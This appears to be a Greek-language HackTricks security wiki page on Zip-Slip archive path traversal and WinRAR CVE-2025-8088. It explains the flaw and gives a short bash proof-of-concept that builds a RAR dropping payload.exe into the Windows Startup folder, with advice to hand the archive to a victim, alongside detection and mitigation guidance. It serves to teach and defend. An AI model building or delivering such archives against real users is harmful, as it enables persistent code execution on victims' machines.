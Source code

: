 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## Overview

Πολλές μορφές αρχείων (ZIP, RAR, TAR, 7-ZIP, κ.λπ.) επιτρέπουν σε κάθε εγγραφή να φέρει το δικό της **εσωτερικό μονοπάτι**. Όταν ένα εργαλείο εξαγωγής τιμά τυφλά αυτό το μονοπάτι, ένα κατασκευασμένο όνομα αρχείου που περιέχει `..` ή ένα **απόλυτο μονοπάτι** (π.χ. `C:\Windows\System32\`) θα γραφτεί εκτός του επιλεγμένου καταλόγου από τον χρήστη. Αυτή η κατηγορία ευπάθειας είναι ευρέως γνωστή ως *Zip-Slip* ή **archive extraction path traversal**.

Οι συνέπειες κυμαίνονται από την επαναγραφή αυθαίρετων αρχείων έως την άμεση επίτευξη **remote code execution (RCE)** ρίχνοντας ένα payload σε μια **auto-run** τοποθεσία όπως ο φάκελος *Startup* των Windows.

## Root Cause

1. Ο επιτιθέμενος δημιουργεί ένα αρχείο όπου μία ή περισσότερες κεφαλίδες αρχείων περιέχουν:
* Σειρές σχετικής διαδρομής (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
* Απόλυτα μονοπάτια (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Το θύμα εξάγει το αρχείο με ένα ευάλωτο εργαλείο που εμπιστεύεται το ενσωματωμένο μονοπάτι αντί να το καθαρίζει ή να αναγκάζει την εξαγωγή κάτω από τον επιλεγμένο κατάλογο.
3. Το αρχείο γράφεται στην τοποθεσία που ελέγχεται από τον επιτιθέμενο και εκτελείται/φορτώνεται την επόμενη φορά που το σύστημα ή ο χρήστης ενεργοποιεί αυτό το μονοπάτι.

## Real-World Example – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR για Windows (συμπεριλαμβανομένων των `rar` / `unrar` CLI, της DLL και της φορητής πηγής) απέτυχε να επικυρώσει τα ονόματα αρχείων κατά την εξαγωγή. Ένα κακόβουλο αρχείο RAR που περιέχει μια εγγραφή όπως:
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
θα κατέληγε **έξω** από τον επιλεγμένο φάκελο εξόδου και μέσα στον *Φάκελο Εκκίνησης* του χρήστη. Μετά την είσοδο, τα Windows εκτελούν αυτόματα όλα όσα υπάρχουν εκεί, παρέχοντας *μόνιμο* RCE.

### Δημιουργία ενός PoC Αρχείου (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Options used:
* `-ep`  – αποθήκευση διαδρομών αρχείων ακριβώς όπως δίνονται (μην αφαιρείτε το `./`).

Παραδώστε το `evil.rar` στο θύμα και δώστε τους οδηγίες να το εξάγουν με μια ευάλωτη έκδοση του WinRAR.

### Παρατηρούμενη Εκμετάλλευση στην Πραγματικότητα

Η ESET ανέφερε καμπάνιες spear-phishing RomCom (Storm-0978/UNC2596) που επισύναψαν αρχεία RAR εκμεταλλευόμενα το CVE-2025-8088 για να αναπτύξουν προσαρμοσμένα backdoors και να διευκολύνουν τις επιχειρήσεις ransomware.

## Συμβουλές Ανίχνευσης

* **Στατική επιθεώρηση** – Καταγράψτε τις καταχωρίσεις του αρχείου και σημειώστε οποιοδήποτε όνομα περιέχει `../`, `..\\`, *απόλυτες διαδρομές* (`C:`) ή μη κανονικοποιημένες κωδικοποιήσεις UTF-8/UTF-16.
* **Εξαγωγή σε sandbox** – Αποσυμπιέστε σε έναν αναλώσιμο φάκελο χρησιμοποιώντας έναν *ασφαλή* extractor (π.χ., Python’s `patool`, 7-Zip ≥ τελευταίας έκδοσης, `bsdtar`) και επαληθεύστε ότι οι προκύπτουσες διαδρομές παραμένουν μέσα στον φάκελο.
* **Παρακολούθηση τερματικών** – Ειδοποιήστε για νέα εκτελέσιμα που γράφονται σε τοποθεσίες `Startup`/`Run` λίγο μετά το άνοιγμα ενός αρχείου από το WinRAR/7-Zip/κ.λπ.

## Μετριασμός & Σκληραγώγηση

1. **Ενημερώστε τον extractor** – Το WinRAR 7.13 εφαρμόζει σωστή απολύμανση διαδρομών. Οι χρήστες πρέπει να το κατεβάσουν χειροκίνητα γιατί το WinRAR δεν διαθέτει μηχανισμό αυτόματης ενημέρωσης.
2. Εξάγετε αρχεία με την επιλογή **“Αγνόησε διαδρομές”** (WinRAR: *Εξαγωγή → "Μη εξαγωγή διαδρομών"*) όταν είναι δυνατόν.
3. Ανοίξτε μη αξιόπιστα αρχεία **μέσα σε sandbox** ή VM.
4. Εφαρμόστε λευκή λίστα εφαρμογών και περιορίστε την πρόσβαση εγγραφής χρηστών σε καταλόγους αυτόματης εκκίνησης.

## Πρόσθετες Επηρεαζόμενες / Ιστορικές Περιπτώσεις

* 2018 – Μαζική *Zip-Slip* προειδοποίηση από την Snyk που επηρεάζει πολλές βιβλιοθήκες Java/Go/JS.
* 2023 – 7-Zip CVE-2023-4011 παρόμοια διαδρομή κατά τη διάρκεια συγχώνευσης `-ao`.
* Οποιαδήποτε προσαρμοσμένη λογική εξαγωγής που αποτυγχάνει να καλέσει `PathCanonicalize` / `realpath` πριν από την εγγραφή.

## Αναφορές

- [BleepingComputer – WinRAR zero-day exploited to plant malware on archive extraction](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Changelog](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip vulnerability write-up](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}
